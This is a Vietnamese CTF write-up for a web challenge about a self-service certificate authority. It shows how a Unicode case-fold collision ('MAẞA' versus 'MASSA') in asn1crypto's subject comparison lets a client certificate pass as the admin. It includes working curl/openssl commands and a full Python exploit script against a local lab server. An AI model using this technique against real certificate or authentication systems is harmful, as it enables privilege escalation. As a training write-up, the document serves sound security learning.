







## Đề bài 
Everything should be self-serve in 2026

File: [web_ass.tar.gz](https://github.com/Drakie14/Challenges/blob/NNS-CTF/web_ass.tar.gz)
## Solution
Truy cập trang, ta thấy một CA "Administration Self-Service" cho tự đăng ký certificate (chọn profile `CLIENT`/`ADMIN`):



`ASS` = *Administration Self-Service*, một CA nội bộ cấp certificate Ed25519. Muốn lấy flag phải gọi `POST /admin` với cert do CA ký, còn hạn, ký đúng `nonce`, và có **subject bằng subject của cert ADMIN**. Nhưng cert ADMIN không trả private key và chỉ cấp được **một lần**.

Mấu chốt: server so subject bằng `asn1crypto`:

```python!
authorized = ca.subject(presented) == ca.subject(administrator_certificate)
```

`asn1crypto.x509.Name.__eq__` không so byte thô mà so theo luật chuẩn hoá tên X.509 (RFC 4518 / stringprep), trong đó có bước **case-fold (table B.2)**:

```python!
>>> import stringprep
>>> stringprep.map_table_b2('ẞ')   # ẞ = LATIN CAPITAL LETTER SHARP S
'ss'
```

Bộ lọc tên (`names.py`) lại cho phép ký tự trong khối Latin Extended Additional `0x1E00–0x1F00` — đúng nơi có `ẞ` (U+1E9E), vừa `isupper()` vừa fold thành `ss`:

```python!
prep("MASSA")               == " massa "
prep("MA" + "ẞ" + "A") == " massa "   # 'MA' + ẞ + 'A'
```

Hai tên khác nhau ở mức Python string (qua được kiểm tra trùng tên `issued_names`) nhưng bằng nhau khi so subject. Vậy:

1. Đăng ký `ADMIN` tên `MASSA` -> chiếm slot admin (không cần private key).
2. Đăng ký `CLIENT` tên `MAẞA` -> nhận private key, subject đụng độ admin.
3. Lấy nonce, ký bằng key CLIENT, nộp cert CLIENT vào `/admin` -> subject khớp -> flag.

Hai bước đăng ký làm thẳng bằng **form trên trang**.

**Bước 1 — Đăng ký ADMIN.** Nhập tên `MASSA`, chọn profile `ADMIN`, bấm *Request certificate*. Kết quả chỉ có `certificate`, **không** có `private_key` (đề không trả key cho ADMIN, ta chỉ cần chiếm slot admin):



**Bước 2 — Đăng ký CLIENT.** Nhập tên `MAẞA` (`MA` + `ẞ` + `A`), chọn `CLIENT`, *Request certificate*. Lần này kết quả **có `private_key`** — mà subject của nó lại **đụng độ** cert ADMIN ở trên (vì `ẞ` fold thành `ss`):



Ba bước xác thực còn lại làm ngay trong **DevTools Console** — không cần ký ở ngoài, vì WebCrypto có sẵn `Ed25519`.

**Bước 3 — Xin nonce.** `GET /auth/nonce` trả một chuỗi ngẫu nhiên (dùng một lần) mà ta phải ký:



**Bước 4 — Ký nonce.** Import `private_key` của CLIENT thành khoá `Ed25519` rồi ký chuỗi `nonce`, lấy chữ ký dạng base64. Toàn bộ chạy bằng `crypto.subtle.sign` **ngay trong trình duyệt**:



**Bước 5 — Nộp /admin.** `POST /admin` với **cert CLIENT** + `nonce` + `signature`. Chữ ký hợp lệ (đúng khoá CLIENT), và khi server chuẩn hoá subject thì cert CLIENT (`MAẞA`) **khớp** cert ADMIN (`MASSA`) -> trả flag:



-> Flag: `NNS{unic0de_subject_c0llisi0n_pwn}`

### Cách khác — ký tay bằng `openssl`

Nếu thích lưu cert/key ra file rồi làm bằng CLI (không dùng WebCrypto), ta ký `nonce` bằng `openssl` (cần OpenSSL 3.0+ cho `-rawin` của Ed25519):

```bash!
B=http://localhost:3002
# 1) chiếm slot admin (MASSA)
curl -s -X POST $B/certificates -H 'content-type: application/json' -d '{"profile":"ADMIN","name":"MASSA"}'
# 2) lấy cert + key của CLIENT (MAẞA) ra file
curl -s -X POST $B/certificates -H 'content-type: application/json' -d '{"profile":"CLIENT","name":"MAẞA"}' > c.json
jq -r '.certificate' c.json > client.crt ; jq -r '.private_key' c.json > client.key
# 3) nonce — lưu KHÔNG có ký tự xuống dòng
curl -s $B/auth/nonce | jq -rj '.nonce' > nonce.bin
# 4) ký Ed25519 bằng private key -> base64
openssl pkeyutl -sign -inkey client.key -rawin -in nonce.bin -out sig.bin
base64 -w0 sig.bin > sig.b64
# 5) nộp /admin
jq -n --rawfile cert client.crt --arg n "$(cat nonce.bin)" --arg s "$(cat sig.b64)" \
   '{certificate:$cert,nonce:$n,signature:$s}' > admin.json
curl -s -X POST $B/admin -H 'content-type: application/json' -d @admin.json
```



:::warning
Hai lỗi hay gặp khi làm tay: **nonce bị dính `\n` cuối** (Notepad tự thêm) làm chữ ký sai — phải lưu bằng `jq -rj`/`printf` không xuống dòng; và **PEM phải có xuống dòng thật** (dùng `jq -r` để đổi `\n` escape thành dòng thật, đừng dán nguyên chuỗi `\n`). Ký bằng **private key**, còn **certificate** chỉ để nộp.
:::

Full solve:

```python!
import base64, sys, requests
from cryptography.hazmat.primitives.asymmetric import ed25519
from cryptography.hazmat.primitives.serialization import load_pem_private_key

BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:3000"
s = requests.Session()

s.post(f"{BASE}/certificates", json={"profile": "ADMIN",  "name": "MASSA"})
r = s.post(f"{BASE}/certificates", json={"profile": "CLIENT", "name": "MAẞA"})
cert, key_pem = r.json()["certificate"], r.json()["private_key"]

nonce = s.get(f"{BASE}/auth/nonce").json()["nonce"]
key = load_pem_private_key(key_pem.encode(), password=None)
sig = base64.b64encode(key.sign(nonce.encode())).decode()

r = s.post(f"{BASE}/admin", json={"certificate": cert, "nonce": nonce, "signature": sig})
print(r.json())
```
